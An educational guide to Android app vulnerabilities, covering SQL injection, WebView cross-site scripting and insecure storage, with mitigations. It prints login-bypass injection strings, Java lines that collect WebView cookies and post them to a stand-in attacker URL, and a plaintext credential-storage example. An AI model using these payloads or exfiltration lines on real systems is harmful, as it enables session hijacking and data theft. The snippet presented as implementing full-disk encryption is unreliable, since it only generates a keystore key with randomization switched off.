

# Application vulnerabilities

As technology advances, the reliance on mobile applications has grown exponentially, making them an attractive target for cyber threats. These vulnerabilities often stem from flaws in the design, development, or implementation of applications, exposing users to potential exploits.

The Android operating system's open nature and diverse ecosystem contribute to the challenge of maintaining robust security across all applications. Threat actors exploit vulnerabilities in popular and widely-used applications, gaining unauthorized access to sensitive user data or compromising device integrity.

## 1. Code injection 

Code injection includes a range of attack types involving the insertion of malicious code that the application then interprets or executes. This type of attack exploits the mishandling of untrusted data within the Android operating system.

The consequences of code injection in Android apps can be severe, providing attackers with opportunities to manipulate the application's behavior, compromise user data, or gain unauthorized access to sensitive information. Given the diverse nature of Android apps and their reliance on user inputs, vulnerabilities in input validation and insecure coding practices can make them susceptible to code injection attacks. [[1]](https://www.hindawi.com/journals/scn/2018/2489214/)

### Attack tree


## 1.1. SQL injection

SQL injection exploits vulnerable applications by inserting code into SQL statements to access underlying databases beyond their intentionally-exposed interfaces. The attack can expose private data, corrupt database contents, and even compromising of backend infrastructure. [[2]](https://developer.android.com/privacy-and-security/risks/sql-injection)

SQL databases (specifically, the SQLite variant) are commonplace in the Android framework. In particular, they are used extensively by content providers, which often provide an abstraction to such databases to be used by other components of the Android operative system.

When a content provider is performing an implementation, it is not uncommon to have to interact with the database using low-level SQL queries, thus necessitating the adherence to practices that mitigate SQL injections. [[3]](https://knowledge-base.secureflag.com/vulnerabilities/sql_injection/sql_injection_android.html)

In this basic example, an unescaped input by a user into an order number box can be inserted into the SQL string and interpreted as the following query:

```
SELECT * FROM users WHERE email = 'example@example.com' AND order_number = '251542'' LIMIT 1
```

Such code would generate a database syntax error in a web console, which shows the application may be vulnerable to SQL injection. Replacing the order number with `'OR 1=1–` means authentication can be achieved since the database evaluates the statement to `True`, as one always equals one. [[2]](https://developer.android.com/privacy-and-security/risks/sql-injection)

Let's assume an attacker enters the following values into the "username" and "password" fields:

```
username = 1' or '1' = '1
password = 1' or '1' = '1
```

This results in the following query:

```
SELECT * FROM users WHERE username='1' OR '1' = '1' AND Password='1' OR '1' = '1'
```

Because the condition `'1' = '1'` always evaluates as true, this query return all records in the database, causing the login function to return true even though no valid user account was entered. [[4]](https://mobile-security.gitbook.io/mobile-security-testing-guide/general-mobile-app-testing-guide/0x04h-testing-code-quality)

### Content providers

Content providers offer a structured storage mechanism that can be limited to an application or exported for sharing with other apps. Permissions should be set based on the principle of least privilege; an exported `ContentProvider` can have a single specified permission for reading and writing. [[2]](https://developer.android.com/privacy-and-security/risks/sql-injection)

It is worth noting that not all SQL injections lead to exploitation. Some content providers already grant readers complete access to the SQLite database; being able to execute arbitrary queries yields little advantage. Patterns that can represent a security issue include:

- Multiple content providers sharing a single SQLite database file.

    - In this case, each table may be intended for a unique content provider. A successful SQL injection in one content provider would grant access to any other tables. 

- A content provider has multiple permissions for content within the same database.

    - SQL injection in a single content provider that grants access with different permission levels could lead to local bypass of security or privacy settings. [[2]](https://developer.android.com/privacy-and-security/risks/sql-injection)

## Mitigations

SQL injection is a potent attack against which it can be difficult to be entirely resilient, particularly with large and complex applications. Therefore, developers must pay attention to the weaknesses of their applications and improve them in one of the following ways:

- **Replaceable parameters**

    Using `?` as a replaceable parameter in selection clauses and a separate array of selection arguments binds the user input directly to the query rather than interpreting it as part of a SQL statement.

    ```
    // Constructs a selection clause with a replaceable parameter.
    String selectionClause =  "var = ?";

    // Sets up an array of arguments.
    String[] selectionArgs = {""};

    // Adds values to the selection arguments array.
    selectionArgs[0] = userInput;
    ```
    The user input is bound directly to the query rather than being treated as SQL, preventing code injection. [[2]](https://developer.android.com/privacy-and-security/risks/sql-injection)

    Here’s a more elaborate example showing a shopping app’s query to retrieve purchase details with replaceable parameters:

    ```
    public boolean validateOrderDetails(String email, String orderNumber) {
    boolean bool = false;
    Cursor cursor = db.rawQuery(
      "select * from purchases where EMAIL = ? and ORDER_NUMBER = ?", 
      new String[]{email, orderNumber});
    if (cursor != null) {
        if (cursor.moveToFirst()) {
            bool = true;
        }
        cursor.close();
    }
    return bool;
    }
    ```

- **Use PreparedStatement objects**

    The PreparedStatement interface precompiles SQL statements as an object which can then be executed efficiently multiple times. PreparedStatement uses `?` as a placeholder for parameters, which would make the following compiled injection attempt ineffective:

    ```
    WHERE id=295094 OR 1=1;
    ```

    In this case, `295094 OR 1=1` statement is read as the value for ID, likely yielding no results, whereas a raw query would interpret the `OR 1=1` statement as another part of the `WHERE` clause. The example below shows a parametrized query:

    ```
    PreparedStatement pstmt = con.prepareStatement(
                                "UPDATE EMPLOYEES SET ROLE = ? WHERE ID = ?");
    pstmt.setString(1, "Barista")   
    pstmt.setInt(2, 295094)
    ```

- **Use query methods**

    In this longer example, the `selection` and `selectionArgs` of the `query()` method are combined to make a `WHERE` clause. Since the arguments are provided separately, they are escaped before their combination, preventing SQL injection. [[2]](https://developer.android.com/privacy-and-security/risks/sql-injection)

    ```
    SQLiteDatabase db = dbHelper.getReadableDatabase();
    // Defines a projection that specifies which columns from the database
    // should be selected.
    String[] projection = {
        BaseColumns._ID,
        FeedEntry.COLUMN_NAME_TITLE,
        FeedEntry.COLUMN_NAME_SUBTITLE
    };

    // Filters results WHERE "title" = 'My Title'.
    String selection = FeedEntry.COLUMN_NAME_TITLE + " = ?";
    String[] selectionArgs = { "My Title" };

    // Specifies how to sort the results in the returned Cursor object.
    String sortOrder =
        FeedEntry.COLUMN_NAME_SUBTITLE + " DESC";

    Cursor cursor = db.query(
        FeedEntry.TABLE_NAME,   // The table to query
        projection,             // The array of columns to return (pass null to get all)
        selection,              // The columns for the WHERE clause
        selectionArgs,          // The values for the WHERE clause
        null,                   // don't group the rows
        null,                   // don't filter by row groups
        sortOrder               // The sort order
    );
    ```

- **Use properly configured SQLiteQueryBuilder**

    Developers can further protect applications by using `SQLiteQueryBuilder`, a class that helps build queries to be sent to `SQLiteDatabase` objects. Recommended configurations include:

    - `setStrict()` mode for query validation.
    - `setStrictColumns()` to validate that columns are allow-listed in the setProjectionMap.
    - `setStrictGrammar()` to limit subqueries. [[2]](https://developer.android.com/privacy-and-security/risks/sql-injection)

- **Use Room library**

    The `android.database.sqlite` package provides APIs necessary for using databases on Android. However, this approach requires writing low-level code and lacks compile-time verification of raw SQL queries. As data graphs change, affected SQL queries need to be updated manually – a time-consuming and error-prone process.

    A high-level solution is to use the Room Persistence Library as an abstraction layer for SQLite databases. Room’s features comprise:

    - A database class which serves as the main access point for connecting to the app’s persisted data.
    - Data entities representing the database’s tables.
    - Data access objects (DAOs), which provide methods the app can use to query, update, insert, and delete data.

    Room’s benefits include:

    - Compile-time verification of SQL queries.
    - Reduction of error-prone boilerplate code.
    - Streamlined database migration. [[2]](https://developer.android.com/privacy-and-security/risks/sql-injection)


## 1.2. Cross-site scripting

Cross-site scripting (XSS) in an Android application occurs when an attacker successfully injects malicious scripts (usually JavaScript) into the application’s user interface, which is then executed within the context of WebView or other components responsible for rendering web content. One such way can be to exploit Javascript vulnerabilities such as XSS vulnerabilities via WebView. 

WebView is basically a class which is an extension of the Android’s View class,
which enables to display the web pages. By using WebView, the Android applications
can easily embed a browser inside them which not only allows to display the web
contents but also to interact with the web servers. There are two types of APIs in WebView, Web-based APIs and the UI based API. Web-based APIs are used to interact with the web-contents and to access the web services. UI based APIs are the interactive components such as buttons, text fields, etc. [[5]](https://www.ripublication.com/irph/ijict_spl/ijictv4n11spl_10.pdf)

It has been modeled that JavaScript injection is used for attacking the WebView component using WebView’s `loadUrl()` method. This method receives the argument of type string and if the string starts with JavaScript then WebView treats the entire string as JavaScript and executes it on behalf of the web page that is currently opened in the WebView component. 

The JavaScript code has the same authorization and privilege as that of the web page scripts and therefore can manipulate the cookies and
information on the web page. The attacks can be implemented by executing the code
that resides at the server and sending malicious scripts to the server through HttpGet
and HttpPost methods which results in stealing cookies and using the stolen cookie to
impersonate user. [[5]](https://www.ripublication.com/irph/ijict_spl/ijictv4n11spl_10.pdf)



### Stealing cookies

A cookie known as a web cookie or http cookie is a small piece of text stored by the
user’s browser. Cookie is used to store and maintain users authentication and to
implement navigation, possibly across multiple visits. Cookie stealing is the most
common task in cross-site scripting attacks in which the session ID’s, Login
details of the user is gathered without user’s knowledge. These stolen cookies and
Url’s can be sent to any attacker’s server. [[5]](https://www.ripublication.com/irph/ijict_spl/ijictv4n11spl_10.pdf)

When the user runs the application through the WebView, Android applications can monitor the events occurred within WebView. We override the `shouldOverrideUrlLoading` hook, which is triggered by the navigation event, (when the user tries to navigate to another URL). Cookies can be gathered at every page navigation of the user using the method `getCookie()` from `CookieManager` class as shown in the code fragment below: 

```
CookieManager cookieManager = CookieManager.getInstance();
final String cookie = cookieManager.getCookie(url);
```

Through HttpPost, malicious script can be run on the user’s Android device, cookies and URL can be sent to any third party (i.e., the attacker’s server), thus avoiding the same-origin policy or cookie protection mechanism. [[6]](https://arxiv.org/ftp/arxiv/papers/1304/1304.7451.pdf)

```
HttpClient httpClient = new DefaultHttpClient();
HttpPost httpPost = new HttpPost(“http://evilScript/androidCookie.php");
```

The attacker is now able get all the cookies and will be able to launch several attacks such a Session hijacking and impersonating user using stolen cookies. The attacks described above are quite dangerous as the user sees only the trusted content and is not aware that his cookies are being stolen. [[6]](https://arxiv.org/ftp/arxiv/papers/1304/1304.7451.pdf)

### Session hijacking

Session hijacking is a method of taking over a Web user session by stealthily obtaining the session ID and gaining unauthorized access. The session ID is normally stored within a cookie or URL. Once the user’s session ID has been accessed, the attacker can masquerade as that user and do anything the user is authorized to do on the network. 

From the web server’s point of view, a request from an attacker has the same authentication as the victim’s requests, thus the request is performed on behalf of the victim’s session. This usually results in the attacker being able to perform all normal web application functions with the same privileges of legitimate user (e.g. online bill pay, composing an email, etc.). [[6]](https://arxiv.org/ftp/arxiv/papers/1304/1304.7451.pdf)

### Gathering sensitive information

Cross-site scripting attack is also implemented to extract the sensitive data and information such as email ids, contacts, account numbers, contacts, etc. from user’s mobile device. Unfortunately, the user is unaware of these attacks as the user is able to see only the trusted content on the web page. 

For example, when a user installs an app, some permissions need to be granted for the app to be installed. Then the malicious app can access and extract all the sensitive information from the victim’s device and send them to the attacker’s server. These attacks are therefore very easy to launch and equally difficult to detect. [[5]](https://www.ripublication.com/irph/ijict_spl/ijictv4n11spl_10.pdf)

## Mitigations

WebViews with `WebSettings` that set either `setAllowFileAccessFromFileURLs` or `setAllowUniversalAccessFromFileURLs` to `true` must not load any untrusted web content. This includes content from trusted domains that is loaded over HTTP. Malicious web content or networks can inject scripts to redirect the WebView to a malicious local file and launch a Cross-site scripting attack to access private local files or cookies. Developer should also ensure that WebViews with dangerous settings do not load URLs obtained from untrusted sources. [[7]](https://support.google.com/faqs/answer/7668153?hl=en)

- **Ensuring that WebViews do not have dangerous settings**

    Update your `android:targetSdkVersion` in your Manifest to be at least 16 to use safe default settings for WebView. Otherwise, call `setAllowFileAccessFromFileURLs(false)` and `setAllowUniversalAccessFromFileURLs(false)` to ensure that their WebViews are safe. [[7]](https://support.google.com/faqs/answer/7668153?hl=en)

- **Ensuring that WebViews cannot load local files or execute JavaScript**

    Call `setAllowFileAccess(false)` to prevent WebViews with dangerous settings from loading local files or call `setJavaScriptEnabled(false)` to prevent WebViews with dangerous settings from executing JavaScript code. [[7]](https://support.google.com/faqs/answer/7668153?hl=en)

- **Ensuring that WebViews with dangerous settings do not load untrusted web content**

    If a WebView needs to enable these dangerous settings, you must ensure that it does not load untrusted web content. This includes web content loaded over HTTP. You can set `android:usesCleartextTraffic=false` or set a Network Security Config that disallows HTTP traffic in your Manifest. Alternatively, you can ensure that any WebViews with dangerous settings do not load any URLs with HTTP schemes. [[7]](https://support.google.com/faqs/answer/7668153?hl=en)

- **Ensuring that WebViews safely display user-generated content**

    If an user-generated content are displayed in a WebView, use `Html.escapeHtml()` before loading it into the WebView:

    ```
    String userContent = "<script>alert('XSS');</script>";
    String encodedContent = Html.escapeHtml(userContent);
    webView.loadData(encodedContent, "text/html", "UTF-8");
    ```

## 2. Insecure data storage

Insecure data storage refers to the practice of storing sensitive or private data in an unsecured or easily accessible manner. In the context of mobile apps, insecure data storage can occur when apps store sensitive user information such as passwords, personal identification information, financial data, or other confidential information on the device’s file system or database without proper encryption or protection. [[8]](https://cqr.company/web-vulnerabilities/insecure-data-storage-in-mobile-apps/)

A vulnerable code example for insecure data storage in mobile apps could look like this:

```
private void saveCredentials(String username, String password) {
    try {
        FileOutputStream fos = openFileOutput("credentials.txt", Context.MODE_PRIVATE);
        fos.write(username.getBytes());
        fos.write(password.getBytes());
        fos.close();
    } catch (Exception e) {
        e.printStackTrace();
    }
}
```

In the above code, the `saveCredentials` method is used to store the user’s credentials in a file called “credentials.txt” in the app’s private data directory. However, this code does not use any encryption or hashing techniques to secure the user’s data. Therefore, if an attacker gains access to the device, they can easily retrieve the user’s username and password. [[8]](https://cqr.company/web-vulnerabilities/insecure-data-storage-in-mobile-apps/)

### Attack tree


### Credential theft

An attacker can exploit insecure data storage in mobile apps to steal the user’s login credentials. For instance, if an app stores the user’s username and password in plaintext, an attacker who gains access to the device can easily retrieve the user’s credentials and use them to log in to the user’s account. This can lead to identity theft, financial fraud, or other forms of cybercrime. [[8]](https://cqr.company/web-vulnerabilities/insecure-data-storage-in-mobile-apps/)

### Data manipulation

An attacker can exploit insecure data storage in mobile apps to manipulate the user’s data. For example, if an app stores the user’s financial data without proper encryption, an attacker who gains access to the device can modify the data to transfer money or make unauthorized transactions. This can lead to financial losses and damage to the user’s credit score. [[8]](https://cqr.company/web-vulnerabilities/insecure-data-storage-in-mobile-apps/)

### Unauthorized access

An attacker can exploit insecure data storage in mobile apps to gain unauthorized access to the user’s data. For example, if an app stores the user’s personal information without proper encryption, an attacker who gains access to the device can read or copy the data. This can lead to identity theft, social engineering attacks, or other forms of cybercrime. [[8]](https://cqr.company/web-vulnerabilities/insecure-data-storage-in-mobile-apps/)

### Malware installation

An attacker can exploit insecure data storage in mobile apps to install malware on the device. For instance, if an app stores the user’s data without proper encryption, an attacker who gains access to the device can inject malicious code into the data to execute arbitrary commands or download and install malware. This can lead to complete compromise of the device and the user’s data. [[8]](https://cqr.company/web-vulnerabilities/insecure-data-storage-in-mobile-apps/)

## Mitigations

Proposed mitigations are mainly based on encryption schemes, which are one of the key security features for protecting data on a device. Android provides several encryption systems that can be used as a countermeasure for software-based threats.

- **Full-disk encryption**

    Full-disk encryption uses the user's password or PIN-lock screen to derive the encryption key through password-based key derivation function to encrypt the device. Moreover, requiring the user to type the encryption password every time he wants to unlock the screen, makes him even less likely to choose a secure password. [[9]](https://www.sciencedirect.com/science/article/pii/S1319157818301046)
    
    Also, there is an increased chance that an attacker is shoulder surfing while user unlocks screen, which will disclose encryption password as well. Also, FDE is a lengthy process that makes the device unusable during that time, depending on the device capabilities; FDE may degrade the device performance. Once it is enabled, it cannot be reversed without a factory reset of the device. If the user forgets the key, there is no way to get the data back. [[9]](https://www.sciencedirect.com/science/article/pii/S1319157818301046)

    Below is code example how developers can programmatically implement generating encryption key for full disc encryption:

    ```
    private static void generateEncryptionKey() throws GeneralSecurityException, IOException {
        KeyGenerator keyGenerator = KeyGenerator.getInstance(KeyProperties.KEY_ALGORITHM_AES, "AndroidKeyStore");
        keyGenerator.init(new KeyGenParameterSpec.Builder(KEY_ALIAS,
                KeyProperties.PURPOSE_ENCRYPT | KeyProperties.PURPOSE_DECRYPT)
                .setBlockModes(KeyProperties.BLOCK_MODE_CBC)
                .setEncryptionPaddings(KeyProperties.ENCRYPTION_PADDING_PKCS7)
                .setRandomizedEncryptionRequired(false) // Full Disk Encryption doesn't require randomization
                .build());
        keyGenerator.generateKey();
    }
    ```

    This encryption feature is disabled by default, and the user must activate it manually, which raises a security risk. Furthermore, it can only be activated if PIN-locks or passwords are in use. FDE does not encrypt whole disks, it encrypts user partitions mounted at /data only, which host app's private directory. Each app has its own specific /data that it is hidden from users and cannot be read or written by any other app. It is usually used to store sensitive data such as configuration files, saved games data, or any other types of files that the user should not tamper with. [[9]](https://www.sciencedirect.com/science/article/pii/S1319157818301046)

- **File-based encryption**

    File-based encryption enables a feature called Direct Boot. Direct Boot allows encrypted devices to boot straight to the lock screen. Previously, on encrypted devices using full-disk encryption (FDE), users needed to provide credentials before any data could be accessed, preventing the phone from performing all but the most basic of operations. For example, alarms could not operate, accessibility services were unavailable, and phones could not receive calls but were limited to only basic emergency dialer operations. [[10]](https://source.android.com/docs/security/features/encryption/file-based)

    On an FBE-enabled device, each user of the device has two storage locations available to applications:

    - Credential Encrypted (CE) storage, which is the default storage location and only available after the user has unlocked the device.

    - Device Encrypted (DE) storage, which is a storage location available both during Direct Boot mode and after the user has unlocked the device. [[10]](https://source.android.com/docs/security/features/encryption/file-based)

    Android provides a reference implementation of file-based encryption, in which vold (system/vold) provides the functionality for managing storage devices and volumes on Android. The addition of FBE provides vold with several new commands to support key management for the CE and DE keys of multiple users. In addition to the core changes to use the file-based encryption capabilities in the kernel, many system packages including the lockscreen and the SystemUI have been modified to support the FBE and Direct Boot features. [[10]](https://source.android.com/docs/security/features/encryption/file-based)

- **Android keystore system**

    The Android keystore system lets you store cryptographic keys in a container to make them more difficult to extract from the device. Once keys are in the keystore, you can use them for cryptographic operations, with the key material remaining non-exportable. [[11]](https://developer.android.com/privacy-and-security/keystore)

    The Android keystore system protects key material from unauthorized use in two ways. First, it reduces the risk of unauthorized use of key material from outside the Android device by preventing the extraction of the key material from application processes and from the Android device as a whole. Second, the keystore system reduces the risk of unauthorized use of key material within the Android device by making apps specify the authorized uses of their keys and then enforcing those restrictions outside of the apps' processes. [[11]](https://developer.android.com/privacy-and-security/keystore)

    To generate a new `KeyPair` containing a `PrivateKey`, you must specify the initial X.509 attributes of the certificate. You can use `KeyStore.setKeyEntry()` to replace the certificate at a later time with a certificate signed by a certificate authority (CA). [[11]](https://developer.android.com/privacy-and-security/keystore)

    To generate the key pair, use a `KeyPairGenerator` with `KeyGenParameterSpec`:

    ```
    KeyPairGenerator kpg = KeyPairGenerator.getInstance(
        KeyProperties.KEY_ALGORITHM_EC, "AndroidKeyStore");
    kpg.initialize(new KeyGenParameterSpec.Builder(
        alias,
        KeyProperties.PURPOSE_SIGN | KeyProperties.PURPOSE_VERIFY)
        .setDigests(KeyProperties.DIGEST_SHA256,
            KeyProperties.DIGEST_SHA512)
        .build());

    KeyPair kp = kpg.generateKeyPair();
    ```

## References

[1] [Large-Scale Analysis of Remote Code Injection Attacks in Android Apps](https://www.hindawi.com/journals/scn/2018/2489214/)

[2] [SQL injection](https://developer.android.com/privacy-and-security/risks/sql-injection)

[3] [SQL Injection in Android](https://knowledge-base.secureflag.com/vulnerabilities/sql_injection/sql_injection_android.html)

[4] [Testing Code Quality](https://mobile-security.gitbook.io/mobile-security-testing-guide/general-mobile-app-testing-guide/0x04h-testing-code-quality)

[5] [Survey of Cross-site Scripting Attack in Android Apps](https://www.ripublication.com/irph/ijict_spl/ijictv4n11spl_10.pdf)

[6] [Cross-site scripting Attacks on Android WebView](https://arxiv.org/ftp/arxiv/papers/1304/1304.7451.pdf)

[7] [Fixing a File-based XSS Vulnerability](https://support.google.com/faqs/answer/7668153?hl=en)

[8] [Insecure data storage in mobile apps](https://cqr.company/web-vulnerabilities/insecure-data-storage-in-mobile-apps/)

[9] [Android data storage security: A review](https://www.sciencedirect.com/science/article/pii/S1319157818301046)

[10] [File-Based Encryption](https://source.android.com/docs/security/features/encryption/file-based)

[11] [Android Keystore system](https://developer.android.com/privacy-and-security/keystore)
